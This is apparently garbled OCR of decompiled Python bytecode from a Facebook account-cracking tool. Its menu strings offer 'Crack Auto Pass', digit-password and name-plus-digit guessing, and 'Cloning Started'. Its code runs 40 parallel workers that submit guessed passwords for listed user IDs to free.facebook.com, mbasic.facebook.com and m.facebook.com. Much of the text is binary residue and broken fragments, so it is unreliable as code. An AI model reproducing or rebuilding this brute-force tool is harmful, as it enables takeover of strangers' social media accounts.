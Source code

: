 � t t� t d� t d� t d

� td�}t dt| j� � t d&� t d� tdd���}| jD ]�}z�|�	d�\}}|�	d�}t|�dk�s$t|�dk�s$t|�dk�s$t|�dk�r5||d �� d |d ��  g}n||d �� d |d ��  g}|dk�rT|�

| j||d� n'|dk�rc|�

| j||d� n|d k�rr|�

| j||d!� n	|�

| j||d� W �q�   Y �q�W d   � n	1 �s�w   Y  tt

t� d S t d+� | ��  d S ),Nz1[1;93m[1] [1;97mCrack Auto Pass [1;92m{4-PASS}z9[1;93m[2] [1;97mCrack Digit Passwords   [1;92m{3-PASS}z9[1;93m[3] [1;97mCrack Name + Digit Pass [1;92m{2-PASS}zK[1;93m[4] [1;97mCrack With first last and fullname Pass [1;92m{VIP Fast}r3   u$   [1;93m[•] [1;97mChoose : [1;92mr1   z

Select Correct Oner4   r0   z[1] Method 1z[2] Method 2z[3] Method 3zSelect: z([1;93m[~] [1;97mTotal Ids : [1;92m%s z)[1;93m[~] [1;97mCloning Started [1;97mz/-----------------------------------------------�(   )Zmax_workers�|rW   r=   �   �   �   r   r   r5   zfree.facebook.comr6   zmbasic.facebook.comr8   zm.facebook.com)r6   r   z[1;97mPass 01 : [1;92mz[1;97mPass 02 : [1;92mz[1;97mPass 03 : [1;92mz.[1;93m[~] [1;97mCloning Started Enjoy[1;97mr7   z[1;97mfirst + : [1;92mz[1;92mlast + : [1;92mr9   z

 Select Valid One)r'   r,   rU   r?   r@   rA   r&   rH   �faisaalsr�   Zsubmitr�   r/   r+   r.   ry   )rN   ZchiZjbgZfaisaalZzsbrh   �nameZxzZpwxZpp1Zpp2Zpp3Zpxp1Zpxp2Zpxp3Zptp4r#   r#   r$   rU   C  s�  ���

�



0

�

�

�

����





�



8





�
